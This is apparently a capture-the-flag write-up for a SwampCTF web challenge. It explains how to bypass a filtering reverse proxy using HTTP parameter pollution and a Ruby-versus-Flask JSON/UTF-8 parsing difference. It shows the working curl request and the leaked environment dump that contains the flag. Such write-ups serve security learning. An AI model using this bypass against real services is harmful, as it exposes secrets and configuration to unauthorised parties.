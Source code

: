 * Description
I have created a safe reverse proxy that only forwards requests to retrieve debug information
from the backend. what could go wrong?

http://chals.swampctf.com:41234

* Solution

key point:
1. use ~/api?action=getFlag&action=getInfo~ to bypass frontend reverse proxy, which only allow ~action=getInfo~
2. make the json body parse normal on the front but error on the backend parse:
   - frontend parses the request body using [[https://ruby-doc.org/stdlib-3.0.2/libdoc/json/rdoc/JSON.html][JSON.parse]], which accepts the ~\xff~
   - backend =Flask= attempts to decode the request body as UTF-8 before parse it as JSON. Since ~\xff~ is not valid
     in UTF-8.

#+begin_src shell
ctf ❯ curl 'http://chals.swampctf.com:41234/api?action=getFlag&action=getInfo' -H 'Content-Type: application/json' -d '{"data":"\xff"}' -X POST
{
  "debug_data": {
    "env_vars": {
      "DATABASE_URL": "sqlite:///app.db",
      "DEBUG": "True",
      "ENV": "development",
      "FLASK_ENV": "development",
      "GPG_KEY": "E3FF2839C048B25C084DEBE9B26995E310250568",
      "HOME": "/root",
      "HOSTNAME": "1c5449781218",
      "LANG": "C.UTF-8",
      "LOG_LEVEL": "info",
      "PATH": "/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "PYTHON_SHA256": "3126f59592c9b0d798584755f2bf7b081fa1ca35ce7a6fea980108d752a05bb1",
      "PYTHON_VERSION": "3.9.21",
      "SECRET_KEY": "swampCTF{1nt3r0p3r4b1l1ty_p4r4m_p0llut10n_x7q9z3882e}",
      "WERKZEUG_RUN_MAIN": "true",
      "WERKZEUG_SERVER_FD": "3"
    },
    "headers": {
      "Accept": "*/*",
      "Content-Length": "15",
      "Content-Type": "application/json",
      "Host": "backend:5000",
      "User-Agent": "curl/8.13.0",
      "Version": "HTTP/1.1",
      "X-Forwarded-For": "61.224.78.93"
    },
    "method": "POST",
    "url": "http://backend:5000/api?action=getFlag&action=getInfo"
  },
  "message": "Something broke!!"
}
#+end_src
